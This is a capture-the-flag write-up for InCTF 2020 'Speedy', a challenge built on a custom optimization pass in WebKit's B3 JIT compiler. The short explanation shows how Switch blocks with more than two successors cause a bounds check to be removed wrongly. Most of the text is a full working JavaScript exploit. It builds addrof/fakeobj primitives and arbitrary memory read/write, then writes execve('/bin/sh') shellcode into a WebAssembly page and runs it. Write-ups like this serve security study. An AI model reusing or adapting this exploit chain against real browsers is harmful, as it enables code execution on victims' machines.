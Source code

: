# InCTF 2020: Speedy

## Vulnerability

Going through the readme we can see that the optimization is implemented for
Basic Blocks with 2 branches. Lets see how this is checked in the patch - 

In b3/ChallOpt.cpp , in the `run` function -

```cpp
for (BasicBlock* block : m_proc.blocksInPreOrder()) {

    Value* branch = block->last();
    Effects effects = branch->effects();

    /* Sanity Check */
    if (!effects.terminal)
        continue;

    /* We can only optimize blocks with branches. Thus ignore stuff like Jump  */
    if (branch->numChildren() < 1 || block->numSuccessors() < 2)
        continue;
```

So the node should be a `terminal` node and have at least 2 successors. But what
if it has more ? Lets check out xrefs for nodes marked `teminal`... 

In B3Value.cpp we see 

```cpp
    case Jump:
    case Branch:
    case Switch:
    case Return:
    case Oops:
    case EntrySwitch:
        result.terminal = true;
        break;

```

So all these nodes will pass the first check. Refer
[https://webkit.org/docs/b3/intermediate-representation.html](https://webkit.org/docs/b3/intermediate-representation.html)
for b3 IR. We see that switch can branch to multiple branches. But the
optimization never takes this into consideration. Thus if there is a `check`
node in 2 branches but none in the third branch still the check in the successor
block will be removed ! 

One trick now was to "hoist" (hmm, not the exact word here but....) the `Load`
nodes preceeding the check into a pre-decessor block `check` this can be done by
common subexpression elimination by just reading a value from an array before
the switch. Here is the exploit - 

## Exploit

```js
// utils
var conversion_buffer = new ArrayBuffer(8)
var f64 = new Float64Array(conversion_buffer)
var i32 = new Uint32Array(conversion_buffer)
var BASE32 = 0x100000000
function f2i(f) {
    f64[0] = f
    return i32[0] + BASE32 * i32[1]
}
function i2f(i) {
    i32[0] = i % BASE32
    i32[1] = i / BASE32
    return f64[0]
}
function hex(x) {
    if (x < 0) return `-${hex(-x)}`
    return `0x${x.toString(16)}`
}

// exploit
let trig_arr = new Array(0x10);
let oob_arr = new Array(0x10);
let obj_arr = new Array(0x10);
let rw = new Array(0x200);
trig_arr.fill(1);
oob_arr.fill(1.1);
obj_arr.fill({});
rw.fill(1.1);

function jit(a,b){
    let h=1000;
    let d=a+1;
    let hg=trig_arr[b]; // Loads are not optimized by ChallOpt. So we need this so B3CSE eliminates further loads.
    switch(a){
    case 0:
        trig_arr[d]=h;
        break;
    case 1:
        trig_arr[d]=h;
        break
    }
    // Overwrite the size field of oob_arr
    trig_arr[d]=h;
}

function fakeobj(addr){
    oob_arr[20]=addr;
    return obj_arr[0];
}
function addrof(obj){
    obj_arr[0]=obj;
    return oob_arr[20];
}

function trigger(){
    for(let i=0;i<0x10000; i++){
        jit(0,6);
        jit(1,3);
    }
    jit(18,3);
}

function main(){
    trigger();

    let sid = Reflect.strid(oob_arr);

    i32[0] = sid;
    i32[1] = 0x01082307 - 0x20000
    let fakecell = f64[0];
    let container ={
        jsCell: fakecell,
        butterfly: fakeobj(i2f(f2i(addrof(rw))+8))
    }
    let contAddr = addrof(container);
    let fakeObjAddr = i2f(f2i(contAddr)+16);
    let fake = fakeobj(fakeObjAddr);

    function read(addr){                 // arbitrary read
        fake[0]=addr;
        return rw[0];
    }
    function write(addr,val){            // arbitrary write
        fake[0]=addr;
        rw[0]=val;
    }

    var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasm_mod = new WebAssembly.Module(wasm_code);
    var wasm_instance = new WebAssembly.Instance(wasm_mod);
    var f = wasm_instance.exports.main;
    var addr_f = addrof(f);
    var addr_shellcode = f2i(read(i2f(f2i(addr_f) + 0x28)));
    // execve(/bin/sh)
    let shellcode = [
            2.825563119134789e-71, 3.2060568105999132e-80,
  -2.5309726874116607e+35, 7.034840446283643e-309
    ]
    for(var i = 0; i < shellcode.length; i++) {
        write(i2f(addr_shellcode + i * 8), shellcode[i]);
    }
    f()
}

main()


```
